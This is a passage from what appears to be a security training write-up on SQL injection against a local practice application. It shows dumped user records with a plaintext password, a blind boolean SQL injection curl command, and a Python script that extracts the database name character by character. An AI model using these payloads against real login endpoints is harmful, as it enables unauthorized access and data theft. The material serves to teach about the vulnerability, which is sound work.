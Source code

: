 ```json
    {
      "id": 2,
      "username": "john.doe",
      "password": "password123",
      "email": "john.doe@wcorp.com",
      "role": "user",
      "created_at": "2025-01-01T00:00:00.000Z",
      "updated_at": "2025-01-01T00:00:00.000Z"
    }
  ]
}
```

✅ **Successfully extracted all user credentials!**

#### Attack 3: Boolean-Based Blind SQL Injection

When you don't see direct output, use true/false conditions:

```bash
# Test if database name starts with 'w'
curl -X POST http://localhost:3000/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin'\'' AND SUBSTRING(database(),1,1)='\''w'\''-- ",
    "password": "x"
  }'

# If successful login = true, if failed = false
# Repeat for each character to extract data
```

**Automated Extraction Script:**
```python
import requests
import string

url = "http://localhost:3000/api/legacy-login"
chars = string.ascii_lowercase + string.digits + '_'
result = ""

for position in range(1, 20):
    for char in chars:
        payload = {
            "username": f"admin' AND SUBSTRING(database(),{position},1)='{char}'--",
            "password": "x"
        }
        
        response = requests.post(url, json=payload)
        
        if response.json().get('success'):
            result += char
            print(f"Found: {result}")
            break
    else:
        break  # No more characters

print(f"Database name: {result}")
```

